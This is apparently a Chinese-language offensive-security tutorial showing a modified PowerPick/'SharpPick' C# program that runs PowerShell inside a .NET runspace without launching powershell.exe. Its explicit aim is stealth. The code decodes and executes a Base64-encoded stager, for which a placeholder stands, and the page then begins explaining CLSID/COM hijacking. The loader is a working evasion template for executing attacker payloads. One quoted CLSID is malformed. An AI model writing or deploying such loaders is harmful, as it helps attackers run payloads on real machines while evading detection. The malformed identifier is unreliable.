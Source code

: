 PowerPick 无需生成 powershell.exe 即可执行 PowerShell 脚本，而是使用 .NET 程序集来实现更隐秘的方法。  
  
修改 PowerPick 以实现更隐秘执行的示例  
  
在此示例中，我们演示了如何修改 C# .NET 应用程序以通过 .NET 程序集加载和执行 PowerShell 代码，并了解其幕后工作原理  
  
```
using System;using System.Text;using System.Collections.ObjectModel;using System.Management.Automation;using System.Management.Automation.Runspaces;namespaceSharpPick{    classProgram    {        ///<summary>        /// Executes a PowerShell command without launching powershell.exe        ///</summary>        ///<param name="command">The PowerShell script to execute</param>        ///<returns>Output of the PowerShell command as a string</returns>        staticstringExecutePowerShellCommand(string command)        {            try            {                // Initialize the Runspace (PowerShell environment)                using (Runspace runspace = RunspaceFactory.CreateRunspace())                {                    runspace.Open();                    RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);                    Pipeline pipeline = runspace.CreatePipeline();                    // Add the PowerShell command to the pipeline                    pipeline.Commands.AddScript(command);                    // Add the "Out-String" cmdlet to capture output as a string                    pipeline.Commands.Add("Out-String");                    // Execute the pipeline                    Collection<PSObject> results = pipeline.Invoke();                    // Combine all the results into a single string                    StringBuilder stringBuilder = new StringBuilder();                    foreach (PSObject obj in results)                    {                        stringBuilder.AppendLine(obj.ToString());                    }                    // Return the resulting string, trimmed to remove extra whitespace                    return stringBuilder.ToString().Trim();                }            }            catch (Exception ex)            {                Console.WriteLine($"Error executing PowerShell command: {ex.Message}");                returnstring.Empty;            }        }        staticintMain(string[] args)        {            try            {                // Base64-encoded stager                string base64Stager = "Your stages goes here";                // Decode the Base64-encoded stager to a string                string decodedStager = Encoding.Unicode.GetString(Convert.FromBase64String(base64Stager));                // Execute the decoded PowerShell stager and capture the result                string output = ExecutePowerShellCommand(decodedStager);                // Log the result (for debugging purposes)                Console.WriteLine("PowerShell Output: ");                Console.WriteLine(output);                return0;            }            catch (Exception ex)            {                Console.WriteLine($"Error in Main: {ex.Message}");                return1;            }        }    }}
```  
  
  
它究竟是如何运作的？  
- 该Runspace对象是使用创建的RunspaceFactory.CreateRunspace()。这会在 .NET 运行时中分配一个专用的执行环境，并且运行空间是一个单独的线程，用于处理 PowerShell 脚本的执行  
  
- 在运行空间内创建一个Pipeline对象，用于处理命令的顺序执行。当您添加命令（如Get-Process）时，它会被编译成中间形式并传递到管道，然后执行  
  
- 添加到管道的每个命令都会被翻译成将CommandProcessor 脚本转换为字节码以供执行。这发生在运行空间内，避免了对外部进程的需求，例如powershell.exe  
  
- PowerShell 对象是作为 .NET 对象创建的（如PSObject），这些对象由 .NET 的垃圾收集器管理，但 PowerShell 的内部内存管理可确保在运行空间关闭时正确处置它们  
  
劫持并滥用鲜为人知的 CLSID  
  
那么 CLSID 是什么？  
- CLSID（类标识符）是 128 位 GUID（例如{374DE290-123F-4565-9164-39C4925E467B}），可唯一标识 Windows 中的 COM 对象，使应用程序能够定位并与系统或第三方组件（如设备管理器或 UI 处理程序）交互。  
  
- 它们被映射到 Windows 注册表中HKEY_CLASSES_ROOT\CLSID，其中子键定义对象的可执行文件（DLL/EXE）、线程模型和权限的路径。  
  
- 应用程序使用CoCreateInstance带有 CLSID 的 API 来实例化 COM 对象 - 对于文件资源管理器的旧式搜索框 ( {bc32b5-4eec-4de7-972d-bd8bd0324537}) 或 Office 应用程序等功能至关重要。  
  